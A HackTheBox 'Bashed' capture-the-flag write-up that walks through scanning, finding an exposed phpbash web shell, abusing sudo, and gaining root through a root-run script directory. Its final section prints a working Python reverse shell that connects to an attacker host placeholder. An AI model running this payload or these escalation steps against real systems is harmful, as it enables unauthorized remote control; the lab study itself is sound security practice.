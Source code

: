```yaml
---
title: "HackTheBox - Bashed Writeup"
date: 2022-03-01
draft: false
tags: ["python", "gobuster", "crontab", "file-misconfiguration"]
htb: "HacktheBox"
linux: "Linux"
---
```


## Nmap

As always. I'm gonna run the Nmap scan. Here is the result of the scan.

### result

```sql
# Nmap 7.92 scan initiated Sat Feb 26 01:50:32 2022 as: nmap -sC -sV -oN nmap/bashed 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 01:50:44 2022 -- 1 IP address (1 host up) scanned in 12.17 seconds
```

port `80/HTTP` is the only one open.

### Http

Let's take a look at the website. 

![1](website.png)

Turns out, the `phpbash` is a web shell. Well, it is an open-source project and I found the GitHub link on the site itself.

```bash
https://github.com/Arrexel/phpbash
```

On the GitHub page. The `phpbash` location looks like at the uploads directory. However, when I went to the uploads directory it's nothing there.

![1](upload_dir.png)

### Gobuster

So, I'm gonna run the `gobuster` to search all hidden directories. It found a bunch of directories but the `/dev` really caught my eye.

![1](gobuster.png)

### /dev

Let's take a look at the `/dev` directory. Wow! found it. Now, I'm just clicking the `phpbash.php` and I've got the web shell as the `www-data` user. 

![1](dev.png)

![1](web_shell.png)

## Reverse Shell

Let's try to get the proper reverse shell. I have already tried a bunch of things to gain the reverse shell. However, the `base64` method seems to be working.

So, the first thing is I'm gonna encoded this `bash reverse shell` into `base64`

![1](b64.png)

Then, I'm gonna put it into the input of `phpbash`. Down below; is a syntax should be.  Make sure to set up an `nc` listener first. 

![1](bs64_webshell.png)

![1](got_the_shell.png)

### Upgrade shell using python

YES! I got the shell. Let's upgrade this shell into a proper shell. First, let's import called `/bin/bash` using python with `pty module`. Then, export the terminal to have the clear screen and press `Ctrl + Z` to put it, into the background. Last, type the `stty raw -echo; fg` and press `Enter` 2 times, and there you go!

```bash
-> python3 -c 'import pty;pty.spawn("/bin/bash")'
-> export TERM=xterm
Ctrl + Z 
-> stty raw -echo; fg
```

### User scriptmanager

The first thing a love to do when get access to the machine. I love to check the sudo permission. Let's check it with `sudo -l`. Shockingly, I can run the `sudo` with the `www-data` user. 

![1](scriptmanager.png)

Looks like, I can run any command with the `scriptmanager` user without authentication. Well, let's change into that user with this syntax;

```bash
sudo -u scriptmanager bash
```

![1](change_2_scriptmanager.png)

### /scripts

This is caught by surprise. I found the `/scripts` directory located in the base `/`. Luckily, I already become the `scriptmanager`. Let's take a peek into the particular directory.

![1](script_dir.png)

So, the directory content 2 files are called `test.py` and `test.txt`. However, the test.txt is owned by the `root` user. After endless investigation ;) Looks like any python file in here is gonna run by root. Like a `cronjob`.

![1](contents.png)

## Root Shell

What we know. Any python file in that directory got to execute. So, I'm gonna make a `python file` that contains `reverse shell`. After, all set up just wait for a minute, and BOOM! <br>
_<font color="yellow">make sure to setup nc listener first</font>_

```python
# Python Reverse Shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("TUN0",PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")
```

![1](petai_root.png)
